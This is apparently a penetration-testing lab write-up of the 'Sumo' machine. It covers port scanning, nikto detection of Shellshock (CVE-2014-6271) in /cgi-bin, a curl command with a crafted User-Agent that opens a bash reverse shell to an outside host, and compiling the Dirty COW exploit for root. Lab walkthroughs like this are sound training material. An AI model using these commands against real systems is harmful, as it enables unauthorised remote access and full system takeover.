



The exploitation of the "Sumo" box involved several critical steps. First, intelligence gathering was conducted through a port scan using the nmap tool, identifying open ports such as 22 and 80. Enumeration revealed a potential vulnerability in the `/cgi-bin` directory, specifically the Shellshock vulnerability (CVE-2014-6271). Using the nikto tool, the Shellshock vulnerability was confirmed, allowing for remote command execution. The initial access was gained by exploiting this vulnerability through a crafted User-Agent header in a curl command. During post-exploitation, a vulnerable Linux kernel version was identified, and privilege escalation was achieved by using the Dirty COW exploit, leading to root access. The process included techniques for exploiting web vulnerabilities, remote command execution, and privilege escalation, culminating in total system access and the retrieval of proof files.

# Overview



## 1. Information Gathering

### Port Scan

```bash
sudo nmap -sC -sV -p- 192.168.197.87 -T5 -v
```

Output

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Enumeration

### Port 80



Identified the Shellshock vulnerability using the nikto tool.

```bash
nikto -h http://192.168.244.87
```

Output

```
+ /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability. 
See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
+ /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability. 
See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

- Review
    1. The **`cgi-bin`** directory was found to have a vulnerability called `ShellShock`.
    2. **Shellshock** allows an attacker to execute arbitrary commands remotely on the affected system by exploiting a flaw in how Bash processes environment variables. Specifically, Bash allowed an attacker to insert malicious code as part of the value of an environment variable, which was interpreted and executed by Bash without restrictions. Exploiting this vulnerability, the page can generate an error.
    3. The "cgi-bin" directory is related to Shellshock because many CGI (Common Gateway Interface) scripts are executed in this directory. Shellshock primarily affected web servers that used CGI scripts written in Bash.
    4. You can find this vulnerability by noting that you are using an old version of Apache and cgi_mod (with the cgi folder) or by using nikto.

## 3. Exploitation

Initial Access

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.45.248/666 0>&1' http://192.168.244.87/cgi-bin/test
```



## 4. Post-Exploitation

Kernel Vulnerability

```bash
uname -a 
```

> Linux ubuntu 3.2.0-23-generic
> 


Exploit suggester on the target


I encountered a problem


Export $PATH

```
PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH
```

now, it worked perfectly

```bash
 gcc -pthread 40839.c -o dirtycow -lcrypt
 ./dirtycow
```


Root Access

